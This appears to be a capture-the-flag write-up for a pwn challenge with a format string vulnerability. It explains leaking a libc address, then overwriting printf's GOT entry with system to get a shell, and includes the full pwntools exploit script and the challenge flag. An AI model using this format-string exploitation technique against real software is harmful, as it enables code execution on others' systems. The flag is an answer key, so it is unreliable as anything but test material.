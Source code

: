 # Nothing Much To See

The binary forms an interactive 100-byte printf prompt, where every input has printf called on it directly. No protections, so we can execute a simple GOT overwrite attack. Firstly, we'll need to leak libc - this can be done by leaking __libc_start_main_ret at offset 39. Then, we can use a format string payload to overwrite printf@got with system. Afterwards, everything we enter into the prompt will be system'd, forming a sort of shell. We can type /bin/sh and hit enter to get into a proper shell with this, or just enjoy the existing one. we cat flag.txt to get the flag.

####Flag: TWCTF{kotoshi_mo_hazimarimasita_TWCTF_de_gozaimasu}
```
from pwn import *
context.arch = 'amd64'
e = ELF("./nothing")
p = e.process() if args.LOCAL else remote('pwn02.chal.ctf.westerns.tokyo', 18247)
libc = e.libc if args.LOCAL else ELF("/home/kali/Tools/libc-database/libs/libc6_2.27-3ubuntu1.2_amd64/libc.so.6")
libret = 0x21b97 if not args.LOCAL else 0x26e0b
p.recvuntil(b"> ")
offset = 6
p.sendline("%39$p")
leak = int(p.recvline(),16)
log.info(f"Libc leak: {hex(leak)}")
libcbase = leak - libret
log.info(f"Libc base: {hex(libcbase)}")
libc.address = libcbase
writes = {e.got['printf']:libc.symbols['system']}
payload = fmtstr.fmtstr_payload(offset, writes)
print(len(payload))
p.sendlineafter(b"> ",payload)
p.clean()
p.sendline("/bin/sh")
p.interactive()
```
